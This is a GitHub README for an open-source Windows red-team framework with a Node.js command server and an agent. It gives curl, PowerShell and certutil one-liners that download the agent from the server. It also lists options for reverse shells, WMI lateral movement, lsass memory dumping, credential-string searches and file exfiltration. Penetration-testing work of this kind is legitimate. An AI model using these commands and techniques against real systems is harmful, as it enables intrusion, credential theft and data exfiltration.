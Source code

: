 [![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[<img src="https://img.shields.io/badge/join-telegram-blue">](https://t.me/join0xsp)
[<img src="https://img.shields.io/badge/build%20with-Lazarus-red.svg">](https://www.lazarus-ide.org/)
[<img align="right" src="https://github.com/lawrenceamer/0xsp-Mongoose/blob/0xsp-red/lg.png?raw=true" height="512" width="400">]()
[<img src="https://img.shields.io/badge/join-discord-orange">](https://discord.gg/Xsdxxkm)
[<img src="https://www.finextra.com/finextra-images/top_pics/xl/twitter.jpg" height="64" width="128">](https://twitter.com/zux0x3a)

# 0xsp Mongoose Red for Winodws 

0xsp mongoose red version is provided to assist your needs during cyber security simulation, by using this version you will be able to audit a targeted windows operation system 
for system vulnerabilities, misconfigurations and privilege escalation attacks and replicate the tactics and techniques of an advanced adversary in a network.

with node js support for web application API, it becomes much easier for installation and customization in timely manner, the windows sensor agent will communicate with application API to transfer results, and receive commands as bidirectional technique. 

the agent is able to identify and detect windows exploits by using `windows update api` and `exploit database definitions` modules, the new release will detect also the following 
vulnerabilities.
 
* CVE-2019-0836
* CVE-2019-0841
* CVE-2019-1064
* CVE-2019-1130
* CVE-2019-1253
* CVE-2019-1385
* CVE-2019-1388
* CVE-2019-1405
* CVE-2019-1315
* CVE-2020-0787
* CVE-2020-0796
* CVE-2020-0797 

## Features 

* web application built with NodeJS 
* supports sqlite DB 
* Lateral movements techniques. 
* Bidirectional communication channel.[ video ](https://www.youtube.com/watch?v=tyhBuWCB_aY)
* Plugins online packaging.  
* Enhanced exploit detecter scripting engine. 
* weaponization of run-as-user windows api function.
* local network scanning and shares enumeration.
* lsass memory dummping technique (plugin).

### installation 

```
git clone --single-branch --branch 0xsp-red https://github.com/lawrenceamer/0xsp-mongoose 
cd 0xsp-mongoose/ 
npm install 
node index.js
```
default access credentials :
* username : admin 
* password : 0xsp

[<img align="right" src="https://i.imgur.com/EQOsiv8.png">]()



### quick deploy of agent 

```
#example 1 
curl.exe -o agent.exe http://nodejsip:4000/release/x64.exe
#example 2 
powershell.exe -command (new-object net.webclient).downloadfile('http://nodejsip:4000/release/x64.exe','c:\tmp\agent.exe');
#example 3 
certutil.exe -urlcache -split -f "http://nodejsip:4000/release/x64.exe" agent.exe

```


### Usage 
```
-s --retrieve windows services and installed drivers.
-u --retrieve information about Users, groups, roles.
-c --search for senstive config files by extension.
-n --retrieve network information,network interfaces, connection details.
-w --enumerate for writeable directories, access permission Check, modified permissions.
-i --enumerate windows system information, Sessions, log information.
-l --search in any file for specific string , ex : agent.exe -l c:\ password *.config.
-o --specify host address of nodejs application.
-p --enumerate installed Softwares, Running Processes, Tasks .
-e --kernel inspection Tool, it will help to search through tool databases for windows kernel vulnerabilities
-x --password to authorize your connection with node js application.
-d --download Files directly into Target Machine .
-t --upload Files From target machine into node js application.
-m --run all known scan Types together .

-r --spawn a reverse shell with specific account(weaponization of run-as-user windows api function).
-lr --Lateral movement technique using WMI (e.g -lr -host 192.168.14.1 -username administrator -password blabla -srvhost nodejsip )
-nds --network discovery and share enumeration
-cmd --transfer commands via HTTP Shell
-interactive --starting interactive mode (eg : loading plugins ..etc)
-username --identity authentication for specific attack modules.
-password --identity authentication for specific attack modules.
-host --identify remote host to conduct an attack to.
-srvhost --set rhost of node js application.(bidirectional communications).
```
### quick wiki 
https://github.com/lawrenceamer/0xsp-Mongoose/wiki/0xsp-mongoose-red-version-2.1

### detailed research site 
https://0xsp.com 

### contribution 
the project is opensourced and has been built with Lazarus IDE, you are welcomed to suggest any ideas or reporting bugs 

### tool tutorials 
make sure to subscribe into the following channel to be notified when new tutorial and tricks published for 0xsp 
https://www.youtube.com/channel/UCoEr6Qsyd6oMsPmaJPQ_FOg

